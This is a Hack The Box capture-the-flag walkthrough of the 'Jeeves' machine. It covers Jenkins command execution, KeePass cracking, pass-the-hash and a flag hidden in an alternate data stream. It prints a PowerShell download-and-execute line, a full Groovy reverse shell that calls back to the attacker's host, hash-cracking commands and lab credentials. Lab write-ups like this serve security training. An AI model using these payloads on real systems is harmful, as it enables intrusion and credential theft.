









---
tags:
  - ads
  - keepass
  - jenkins
group: Windows
---


- Machine : https://app.hackthebox.com/machines/Jeeves
- Reference : https://0xdf.gitlab.io/2022/04/14/htb-jeeves.html
- Solved : 2025.3.5. (Wed) (Takes 1day)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**:
        - Identified open ports: HTTP (80), MSRPC (135), SMB (445), Jetty Web Server (50000).
        - Found IIS 10.0 running on port 80 and Jetty 9.4.z-SNAPSHOT on port 50000.
        - SMB signing was disabled, making it potentially vulnerable.
    - **Web Enumeration**:
        - HTTP (80): "Ask Jeeves" page with an image-based error page.
        - HTTP (50000): Jenkins 2.87 was found under `/askjeeves/` via directory enumeration.
        
2. **Shell as `kohsuke`**
    - **Jenkins Exploitation**:
        - Used Jenkins' "New Item" to execute arbitrary Windows batch commands.
        - Used `powershell -c IEX(New-Object Net.WebClient).downloadString(...)` to get a reverse shell.
        - Alternatively, exploited Jenkins' Script Console with a Groovy reverse shell.
        
3. **Privilege Escalation to `Administrator`**
    - **KeePass Database (`CEH.kdbx`)**:
        - Found in `kohsuke`'s `Documents` folder.
        - Extracted and transferred via SMB.
        - Cracked the KeePass master password (`moonshine1`) using `hashcat`.
        - Retrieved credentials, including an NTLM hash for `Administrator`.
    - **Pass-the-Hash Attack**:
        - Used `crackmapexec` to verify the NTLM hash worked.
        - Used `impacket-psexec` to gain a SYSTEM shell.
        
4. **Root Flag Extraction**
    - **Alternative Data Stream (ADS)**:
        - `root.txt` was hidden in an ADS stream under `hm.txt`.
        - Used `dir /R` to list hidden streams.
        - Extracted the flag using `more < hm.txt:root.txt:$DATA`.

### Key Techniques:

- **Enumeration**:
    - Discovered Jenkins through directory brute-forcing.
    - Identified KeePass database for credential extraction.
- **Exploitation**:
    - Used Jenkins' command execution features to get a reverse shell.
    - Cracked KeePass credentials to retrieve NTLM hashes.
- **Privilege Escalation**:
    - Used `Pass-the-Hash` to escalate to Administrator.
    - Retrieved the flag from an ADS stream hidden in a text file.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/jeeves]
└─$ /opt/custom-scripts/port-scan.sh 10.10.10.63
Performing quick port scan on 10.10.10.63...
Found open ports: 80,135,445,50000
Performing detailed scan on 10.10.10.63...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-05 02:23 MST
Nmap scan report for 10.10.10.63
Host is up (0.12s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-05T14:23:34
|_  start_date: 2025-03-05T01:09:41
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 4h59m59s, deviation: 0s, median: 4h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.93 seconds
```

### http(80)



There's a search input page. However, it's redirected to error page.





```html

```

The error page is actually an image.

### http(50000)



There's a only link which is led to external website.
Let's run `gobuster`.

```markdown
┌──(kali㉿kali)-[~/htb/jeeves]
└─$ gobuster dir -u http://10.10.10.63:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.63:50000
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.10.10.63:50000/askjeeves/]
```

There's one sub page `/askjeeves`.



Based on its footer, the version of Jenkins is 2.87.


# Shell as `kohsuke`

### Method #1 New Item (Noisy)



"New Item" -> Fill out item name -> Select "Freestyle project" -> OK.

 

I set "Execute Windows batch command" on "Add build step" menu, and put test command.
Then, I clicked "Build now" and click the created build and clicked "Console Output".



It successfully ran the command.

I can replace the payload to spawn a reverse shell.

I prepared `rshell_9000.ps1` forked from nishang's [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/raw/refs/heads/master/Shells/Invoke-PowerShellTcp.ps1).

```bash
powershell -c "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/rshell_9000.ps1')"
```

### Method #2 Groovy script

Another method is using "Script Console". ("Manage Jenkins" -> "Script Console")



```groovy
String host="10.10.14.3";
int port=9000;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

The listener soon spawned a shell as `kohsuke`.

```bash
┌──(kali㉿kali)-[~/htb/jeeves]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.63] 49682
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke
```


# Shell as `Administrator`

### Enumeration

```bash
C:\Users\kohsuke\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\kohsuke\Documents

11/03/2017  10:18 PM    <DIR>          .
11/03/2017  10:18 PM    <DIR>          ..
09/18/2017  12:43 PM             2,846 CEH.kdbx
               1 File(s)          2,846 bytes
               2 Dir(s)   2,618,859,520 bytes free
```

On `kohsuke`'s directory `/Documents`, there's a KeePass file `CEH.kdbx`.

I transferred the file using smb server.

```bash
┌──(kali㉿kali)-[~/htb/jeeves/smb]
└─$ impacket-smbserver -smb2support share .
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.63,49684)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User JEEVES\kohsuke authenticated successfully
[*] kohsuke::JEEVES:aaaaaaaaaaaaaaaa:11538861055a2c132b5e81054030e556:010100000000000000d88225c48ddb0185b97d76f478b9570000000001001000710043006b0071006d006a005800590003001000710043006b0071006d006a005800590002001000590056006f0073006400470065004b0004001000590056006f0073006400470065004b000700080000d88225c48ddb01060004000200000008003000300000000000000000000000003000008ebe3f64021993185d65670d26d62fb0516389a31f45f5aeae171eeb63b88dc70a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003300000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:share)
[*] Disconnecting Share(1:IPC$)
```

### KeePass

```bash
C:\Users\kohsuke\Documents>copy .\CEH.kdbx \\10.10.14.3\share\CEH.kdbx
copy .\CEH.kdbx \\10.10.14.3\share\CEH.kdbx
        1 file(s) copied.
```

Then let's prepare hash to crack.

```bash
┌──(kali㉿kali)-[~/htb/jeeves/smb]
└─$ keepass2john CEH.kdbx 
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48


┌──(kali㉿kali)-[~/htb/jeeves/smb]
└─$ keepass2john CEH.kdbx > CEH.kdbx.hash   
```

Then let's crack the hash.
For the `hashcat` command, I added `--user` option since the username is appended to the hash.

```bash
┌──(kali㉿kali)-[~/htb/jeeves/smb]
└─$ hashcat -m 13400 -a 0 CEH.kdbx.hash /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.6) starting

<SNIP>

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

<SNIP>

$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48:moonshine1

<SNIP>
```

The cracked password is `moonshine1`.

`kpcli` is required to use the kdbx file. So need to install that first.

```bash
┌──(kali㉿kali)-[~/htb/jeeves/smb]
└─$ kpcli --kdb CEH.kdbx
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> 
```

`find .` shows all entries.

```bash
kpcli:/> find .
Searching for "." ...
 - 8 matches found and placed into /_found/
Would you like to list them now? [y/N] 
=== Entries ===
1. Backup stuff                                                           
2. Bank of America                                   www.bankofamerica.com
3. DC Recovery PW                                                         
4. EC-Council                               www.eccouncil.org/programs/cer
5. It's a secret                                 localhost:8180/secret.jsp
6. Jenkins admin                                            localhost:8080
7. Keys to the kingdom                                                    
8. Walmart.com                                             www.walmart.com
```

`show -f {number}` shows the passwords of {number} th entry.

```bash
kpcli:/> show -f 0

 Path: /CEH/
Title: Backup stuff
Uname: ?
 Pass: aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
  URL: 
Notes: 

kpcli:/> show -f 1

 Path: /CEH/
Title: Bank of America
Uname: Michael321
 Pass: 12345
  URL: https://www.bankofamerica.com
Notes: 

kpcli:/> show -f 2

 Path: /CEH/
Title: DC Recovery PW
Uname: administrator
 Pass: S1TjAtJHKsugh9oC4VZl
  URL: 
Notes: 

kpcli:/> show -f 3

 Path: /CEH/
Title: EC-Council
Uname: hackerman123
 Pass: pwndyouall!
  URL: https://www.eccouncil.org/programs/certified-ethical-hacker-ceh
Notes: Personal login

kpcli:/> show -f 4

 Path: /CEH/
Title: It's a secret
Uname: admin
 Pass: F7WhTrSFDKB6sxHU1cUn
  URL: http://localhost:8180/secret.jsp
Notes: 

kpcli:/> show -f 5

 Path: /CEH/
Title: Jenkins admin
Uname: admin
 Pass: 
  URL: http://localhost:8080
Notes: We don't even need creds! Unhackable! 

kpcli:/> show -f 6

 Path: /CEH/
Title: Keys to the kingdom
Uname: bob
 Pass: lCEUnYPjNfIuPZSzOySA
  URL: 
Notes: 

kpcli:/> show -f 7

 Path: /CEH/
Title: Walmart.com
Uname: anonymous
 Pass: Password
  URL: http://www.walmart.com
Notes: Getting my shopping on
```

### NTLM hash

Among the extracted credentials, there's a NTLM look hash.
`aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`

I tested this hash with `Administrator` account using `crackmapexec` and it worked.

```bash
┌──(kali㉿kali)-[~/htb/jeeves]
└─$ crackmapexec smb 10.10.10.63 -u Administrator -H e0fb1fb85756c24235ff238cbe81fe00
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing FTP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing SSH protocol database
[*] Initializing RDP protocol database
[*] Initializing WINRM protocol database
[*] Initializing LDAP protocol database
[*] Initializing SMB protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

Then, using this hash on `impacket-psexec`, I can easily open a shell as `Administrator`.

```bash
┌──(kali㉿kali)-[~/htb/jeeves]
└─$ impacket-psexec Administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file QSfWQYRN.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service QnRw on 10.10.10.63.....
[*] Starting service QnRw.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

### ADS (Alternative Data Stream)

```bash
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

t11/08/2017  09:05 AM    <DIR>          .
y11/08/2017  09:05 AM    <DIR>          ..
p12/24/2017  02:51 AM                36 hm.txt
e 11/08/2017  09:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,618,716,160 bytes free


C:\Users\Administrator\Desktop> type hm.txt
The flag is elsewhere.  Look deeper.
```

It seems that `root.txt` flag is not directly stored on `Administrator`'s desktop.
Instead, it's stored on ADS stream.
With `/R` option, I can list all ADS streams.

```bash
C:\Users\Administrator\Desktop> dir /R
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

11/08/2017  09:05 AM    <DIR>          .
11/08/2017  09:05 AM    <DIR>          ..
12/24/2017  02:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  09:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   2,618,716,160 bytes free
```

There's one more `hm.txt:root.txt:$DATA`.
I can read it using `more < {stream name}` command line.

```bash
C:\Users\Administrator\Desktop> more < hm.txt:root.txt:$DATA
afbc5bd4<SNIP>
```
